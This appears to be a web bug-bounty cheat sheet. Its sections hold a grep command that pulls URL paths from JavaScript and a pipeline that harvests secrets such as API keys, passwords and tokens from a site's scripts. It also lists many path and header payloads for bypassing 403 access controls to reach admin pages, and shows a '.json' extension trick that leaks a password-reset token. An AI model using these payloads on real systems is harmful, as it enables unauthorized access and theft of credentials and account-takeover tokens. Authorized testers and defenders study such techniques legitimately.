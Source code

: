 ```
cat file.js | grep -aoP "(?<=(\"|\'|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\"|\'|\`))" | sort -u
```
# Extract juicy data from js  
```
cat hosts | httpx -silent | subjs | anew | httpx -silent -sr -mc 200 
grep -EHirn "accesskey|admn|aes|api_key|apikey|password|secret|token" ./output --color

```
# 403 bypass
```
https://target.com/admin/ –> HTTP 302 (redirect to login page)
https://target.com/admin..;/ –> HTTP 200 OK

https://target.com/../admin
https://target.com/whatever/..;/admin

site.com/secret –> HTTP 403 Forbidden
site.com/secret/ –> HTTP 200 OK
site.com/secret/. –> HTTP 200 OK
site.com//secret// –> HTTP 200 OK
site.com/./secret/.. –> HTTP 200 OK

X-Original-URL: /admin
X-Override-URL: /admin
X-Rewrite-URL: /admin

/accessible/..;/admin
/.;/admin
/admin;/
/admin/~
/./admin/./
/admin?param
/%2e/admin
/admin#

```
# Data leakage through .json
```
Here’s a tip to achieve sensitive data leak using .json extension.

Request:
GET /ResetPassword HTTP/1.1
{"email":"victim@example.com"}

Response:
HTTP/1.1 200 OK
Now let’s try this instead:

Request:
GET /ResetPassword.json HTTP/1.1
{"email":"victim@example.com"}

Response:
HTTP/1.1 200 OK
{"success":"true","token":"596a96-cc7bf-9108c-d896f-33c44a-edc8a"}
```
# Generate wordlist for target
```
```